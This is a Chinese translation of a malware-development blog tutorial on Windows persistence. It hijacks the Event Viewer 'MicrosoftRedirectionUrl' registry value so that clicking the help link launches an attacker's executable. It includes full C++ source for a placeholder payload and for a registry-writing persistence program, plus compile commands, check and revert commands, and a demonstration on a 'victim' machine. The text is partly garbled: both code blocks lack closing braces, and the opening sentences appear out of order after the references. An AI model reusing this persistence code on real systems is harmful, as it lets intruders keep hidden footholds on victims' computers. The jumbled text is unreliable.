\newpage
\subsection{恶意软件开发：持久化（第 14 部分）——事件查看器帮助链接（简单的 C++ 示例）}

### 事件查看器帮助链接

{width="80%"}

事件查看器会检查 Windows 在计算机上维护的有限数量的日志。

这些日志是 XML 格式的文本文件，包含纯文本内容。

作为其用户界面的一部分，事件查看器提供了一个指向「事件日志联机帮助」（Event Log Online Help）的链接：

{width="80%"}

点击它时，会打开一个默认的微软帮助链接，该链接定义在 Windows 注册表中的：

{width="80%"}

你也许已经猜到了，合乎逻辑的推断是：项 `MicrosoftRedirectionURL` 的值可以为了攻击者的利益而被修改。

{width="80%"}

### 实战示例

我们来看一个实战示例。

首先，和往常一样，创建恶意应用程序，meow-meow「恶意软件」（`hack.cpp`）：

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

然后，创建用于持久化的程序（`pers.cpp`）：

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
  // update registry key value
  // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
  // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
  // "file://...\hack.exe" /f
  RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
  }

  return 0;

```

如你所见，逻辑很简单，只是把注册表项的值更新为 `file://` 加上恶意程序的路径。

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

编译「恶意软件」：

{width="80%"}

并编译持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

在受害者的机器上（我的例子中是 Windows 10 x64）检查默认的注册表项值：

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

{width="80%"}

然后在受害者的机器上（我的例子中是 Windows 10 x64）运行：

```powershell
.\pers.exe
```

{width="80%"}

最后，再次尝试点击「事件日志联机帮助」链接：

{width="80%"}

{width="80%"}

然后我用 Process Hacker 2 查看了 `hack.exe` 的属性：

{width="80%"}

{width="80%"}

这意味着当链接被点击时，`mmc.exe` 会被启动，而它又会启动恶意行为。

为了还原，实验结束后运行：

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v 
"MicrosoftRedirectionUrl" /t REG_SZ /d 
"http://go.microsoft.com/fwlink/events.asp" /f
```

{width="80%"}

或者直接还原虚拟机。

这是管理员级别的恶意软件持久化技巧，因此该功能仅在拥有管理员权限时才有效。

我不知道野外是否有任何 APT 使用过这种战术和技巧，但我希望这篇文章能让蓝队成员了解这个有趣的技巧（尤其是在开发软件时），并为红队成员的武器库增添一件武器。

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)  
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)  
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)  
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)  
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)

这篇文章是我自己对一个有趣的恶意软件持久化技巧的研究结果：通过替换 Windows 事件查看器的帮助链接实现持久化。

Windows 的事件查看器已经存在了十多年。

这就是技巧所在。

检查正确性：
